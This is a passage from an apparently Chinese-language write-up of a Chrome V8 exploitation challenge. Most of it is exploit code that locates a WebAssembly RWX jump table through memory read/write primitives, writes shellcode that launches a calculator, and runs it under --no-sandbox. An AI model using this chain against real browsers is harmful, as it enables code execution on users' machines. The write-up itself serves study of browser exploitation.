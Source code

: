     /******* -- 布置 wasm 地址以及获取 RWX 内存地址 -- *******/
    function prettyHex(bigint) `{`
        return "0x" + BigInt.asUintN(64, bigint).toString(16).padStart(16, '0');
    `}`

    // 获取 WasmJSFunction 地址
    WasmJSFunctionAddr = Float64ToInt64(oob_arr[WasmJSFunctionIndex]) - BigInt(1);
    console.log("[+] find WasmJSFunction address: " + prettyHex(WasmJSFunctionAddr));
    // 获取 SharedFunctionInfo 地址
    SharedFunctionInfoAddr = read_8bytes(WasmJSFunctionAddr + BigInt(0x18)) - BigInt(1);
    console.log("[+] find SharedFunctionInfoAddr address: " + prettyHex(SharedFunctionInfoAddr));
    // 获取 WasmExportedFunctionData 地址
    WasmExportedFunctionDataAddr = read_8bytes(SharedFunctionInfoAddr + BigInt(0x8)) - BigInt(1);
    console.log("[+] find WasmExportedFunctionDataAddr address: " + prettyHex(WasmExportedFunctionDataAddr));
    // 获取 WasmInstanceObject 地址
    WasmInstanceObjectAddr = read_8bytes(WasmExportedFunctionDataAddr + BigInt(0x10)) - BigInt(1);
    console.log("[+] find WasmInstanceObjectAddr address: " + prettyHex(WasmInstanceObjectAddr));
    // 获取 JumpTableStart 地址
    JumpTableStartAddr = read_8bytes(WasmInstanceObjectAddr + BigInt(0xe8));
    console.log("[+] find JumpTableStartAddr address: " + prettyHex(JumpTableStartAddr));

    /******* -- 写入并执行shell code -- *******/
    var shellcode = new Uint8Array(
        [0x6a, 0x3b, 0x58, 0x99, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x53,
            0x48, 0x89, 0xe7, 0x68, 0x2d, 0x63, 0x00, 0x00, 0x48, 0x89, 0xe6, 0x52, 0xe8, 0x1c, 0x00,
            0x00, 0x00, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x3a, 0x30, 0x20, 0x67, 0x6e,
            0x6f, 0x6d, 0x65, 0x2d, 0x63, 0x61, 0x6c, 0x63, 0x75, 0x6c, 0x61, 0x74, 0x6f, 0x72, 0x00,
            0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05]
    );
    // 写入shellcode 
    console.log("[+] writing shellcode ... ");
    // (尽管单次写入内存的数据大小为8bytes，但为了简便，一次只写入 1bytes 有效数据)
    for (let i = 0; i &lt; shellcode.length; i++)
        write_8bytes(JumpTableStartAddr + BigInt(i), shellcode[i]);
    // 执行shellcode
    console.log("[+] try to execute shellcode ... ");
    WasmJSFunction();
&lt;/script&gt;
</code></pre>
使用如下命令以执行exp:
<pre><code class="lang-cpp hljs">chrome/chrome --no-sandbox --user-data-dir=./userdata http://127.0.0.1:8000/test.html
</code></pre>
<blockquote>尽管给出的附件打了no-sandbox的patch，但实际exp仍然无法执行，必须附加参数`--no-sandbox`才能成功触发，玄学问题XD。</blockquote>
效果如下：
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01ad52e2c5f477467a.png)
</li>
> 尽管给出的附件打了no-sandbox的patch，但实际exp仍然无法执行，必须附加参数`--no-sandbox`才能成功触发，玄学问题XD。
